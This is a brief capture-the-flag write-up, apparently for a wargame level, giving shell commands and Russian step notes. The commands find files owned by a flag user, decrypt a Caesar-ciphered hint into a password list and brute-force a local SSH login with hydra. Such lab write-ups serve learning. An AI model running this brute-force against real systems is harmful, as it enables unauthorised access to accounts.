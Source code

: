 `find / -user flag00 2>&1 | grep -v "Permission denied\|No such file or directory" >&2`

`chmod +r level02.pcap`

`python script.py {pwd} > pwds.txt`

`hydra -l flag00 -P pwds.txt  ssh://127.0.0.1:4242`

1) Ищем файлы-подсказки
2) Скачиваем файл по scp
3) Даем ему права на чтение
4) Запускаем скрипт расшифровки с помощью шифра Цезаря
5) Запускаем hydra для взлома пароля
